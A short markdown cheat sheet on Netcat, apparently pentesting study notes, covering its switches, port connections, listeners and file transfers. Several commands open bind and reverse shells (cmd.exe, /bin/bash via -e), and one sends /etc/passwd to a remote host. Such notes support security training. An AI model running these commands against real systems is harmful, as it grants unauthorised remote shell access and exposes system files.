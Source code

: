 # Tools and Reporting
## Tools
### Netcat
#### Switches
Switch | Description
-|- 
-n| Dont do DNS resolution
-v| Verbose Output
-l| Listen
-p| Port 
-e bin | binary to execute after successful connection

#### Connecting to a TCP/UDP port
```bash
nc -nv 10.10.10.10 4444
```
#### Listening on a TCP/UDP port
```bash
nc -nvlp 4444
```
#### Transfering files with Netcat - Download
```bash
nc -nvlp 4444 > download.exe
```
#### Transfering files with Netcat - Upload
```bash
nc -nv 10.10.10.10 4444 < /etc/passwd
```
#### Bind shell with Netcat
```bash
nc -nvlp 4444 -e cmd.exe
```
#### Reverse Shell with Netcat - Linux
```bash
nc -nv 10.10.10.10 4444 -e /bin/bash
```

#### Bind Shell with Netcat - Windows - Listener
```cmd
nc.exe -nvlp 4444 -e cmd.exe
```